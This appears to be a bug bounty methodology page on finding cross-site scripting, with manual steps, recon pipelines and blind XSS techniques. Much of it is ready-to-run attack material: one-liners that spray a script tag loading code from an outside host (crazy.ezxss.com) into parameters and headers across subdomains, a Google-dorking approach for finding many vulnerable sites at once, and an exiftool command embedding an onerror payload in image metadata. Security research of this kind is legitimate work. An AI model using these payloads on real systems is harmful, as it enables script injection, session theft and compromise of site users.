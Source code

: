 # Top Bug Hunters XSS Hunting Methodology

## XSS Manual Hunting Methodology (LostSec)

* [ ] Enter `coffinxp123` and check for reflections (where it is reflected).&#x20;
* [ ] Understand the context where it is reflected.&#x20;
* [ ] Try to bypass/break that context with the help of simple HTML Injection/Payloads. (i.e., `<u>siddharth</u>`)
* [ ] Once we confirm HTML Injection we can proceed to execute XSS either using event handlers or breaking the context of the input reflection.&#x20;

{% hint style="info" %}
_Note that XSS doesn't execute in the same way in all the browser. If you think you've break the context and still the XSS is not executing then try switching the browser._&#x20;
{% endhint %}

Encoder used by lostsec [`https://dencode.com`](https://dencode.com/)&#x20;

Useful Encoding Mechanisms: `'URL Encoding'`, `HTML Entity Encoding`

## Automated Methodology (LostSec)

**Exact commands used by Lostsec to find XSS:**

1. `echo https://www.target.com | gau | gf xss | uro | gxss | kxss | tee xss_output.txt`&#x20;
2. Clean the output: `cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/-/' | sort -u > final.txt`&#x20;
3. Move this folder to loxs tool folder and fed this file to the LOXS XSS Scanner and boom :bomb::bomb:.&#x20;

## Automate Advanced XSS with XSStrike and Dalfox (AmrSec)

* [ ] Enter `coffinxp123` and check for reflections (where it is reflected).&#x20;
* [ ] Understand the context where it is reflected.&#x20;
* [ ] Copy the URL and paste it in the XSStrike and Dalfox tool.&#x20;

{% hint style="info" %}
_Note that you first need to understand the context of possible XSS cases in order to use these tools. Don't just give all the URLs with the parameters here. Try to understand why should we give this URL to that tool and you're good to go._&#x20;
{% endhint %}

## Mass XSS Hunting (ProwlSec)

Prowlsec explained how to find mass XSS across web applications. Once you discover an XSS vulnerability in one site, locate that site's copyright tag and search Google for other sites using the same tag — those sites often belong to the same organization and may share the same vulnerability.

## LostSec Blind XSS Hunting Methodology&#x20;

{% hint style="info" %}
_This is the_ [_link_](https://www.enciphers.com/web-app-security/setting-up-xss-hunter-on-digitalocean) _for setting up XSS Hunter express on digital ocean along with the domain. This will be useful while Pentesting on a private web application._&#x20;
{% endhint %}

### Manual

* [ ] Find pages probably vulnerable to blind XSS for a specific domain [here](https://lostsec.xyz/coffin/dorking.html) (Blind XSS Dorker).
* [ ] &#x20;Use any open source blind XSS manager such as [ezXSS](https://www.ez.pe/), [bxsshunter](https://bxsshunter.com/bxss-hunter), [XSS Hunter Truffle security ](https://xsshunter.trufflesecurity.com/) and [xss.report](https://xss.report/dashboard) and copy the payloads and paste it within the forms. Local XSS manager: [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express).
* [ ] &#x20;Use these [Blind XSS Manager Extension for Chrome](https://github.com/SeifElsallamy/Blind-XSS-Manager) to directly copy and paste payload into the forms.&#x20;
* [ ] Use `Match and Replace` option in the BurpSuite or any Web Proxy and add paylaods to these request headers: `Referrer`, `Origin`, `Cookie`, `Accept`, `Host`, `X-Forwarded-For`.&#x20;
* [ ] Have Patience and wait.&#x20;

### Automated

* [ ] Use `arjun` to gather endpoints.&#x20;

{% code overflow="wrap" %}
```
arjun -u https://site.com/endpoint.php -oT arjun_output.txt -t 10 --rate-limit 10 --passive -m GET,POST --headers "User-Agent: Mozilla/5.0"

cat arjun_output.txt | bxss -payload '"><script/src=https://crazy.ezxss.com></script>' -header "X-Forwarded-For"
```
{% endcode %}

{% code overflow="wrap" %}
```
arjun -u https://site.com/endpoint.php -oT arjun_output.txt -m GET,POST -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -t 10 --rate-limit 10 --headers "User-Agent: Mozilla/5.0"

cat arjun_output.txt | bxss -payload '"><script/src=https://crazy.ezxss.com></script>' -header "X-Forwarded-For"
```
{% endcode %}

* [ ] Using one liner payloads:&#x20;

{% code overflow="wrap" %}
```
subfinder -d vulnweb.com | gau | grep "&" | bxss -appendMode -payload '"><script/src=https://crazy.ezxss.com></script>' -parameters

subfinder -d vulnweb.com | gau | bxss -payload '"><script/src=https://crazy.ezxss.com></script>' -header "X-Forwarded-For"
```
{% endcode %}

## XSS Via File Metadata

### Create malicious XSS file

#### In Windows

Right click on the image -> Properties -> Details -> Paste your payload into the fields like 'Title', 'Subject' or 'Comments'.&#x20;

#### In Linux

```bash
exiftool -Comment='"><img src=x onerror=alert(1)>' test.jpg
```

_Just upload the image and boom_ :bomb:.&#x20;

#### Master trick

Enter all your payload in a single HTML file and upload it. Atleast one payload might work.&#x20;
